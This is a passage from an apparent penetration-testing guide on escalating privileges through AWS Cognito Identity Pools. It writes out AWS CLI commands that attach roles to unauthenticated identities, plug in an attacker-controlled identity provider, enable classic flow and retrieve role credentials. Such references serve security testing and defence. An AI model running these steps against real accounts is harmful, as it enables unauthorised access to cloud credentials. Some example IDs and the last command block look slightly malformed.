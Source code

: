 ```bash
aws cognito-identity set-identity-pool-roles \
    --identity-pool-id <identity_pool_id> \
    --roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374"
```

If the cognito app **doesn't have unauthenticated users enabled** you might need also the permission `cognito-identity:UpdateIdentityPool` to enable it.

**Potential Impact:** Direct privesc to any cognito role.

### `cognito-identity:update-identity-pool`

An attacker with this permission could set for example a Cognito User Pool under his control or any other identity provider where he can login as a **way to access this Cognito Identity Pool**. Then, just **login** on that user provider will **allow him to access the configured authenticated role in the Identity Pool**.

```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

It's also possible to **abuse this permission to allow basic auth**:

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```
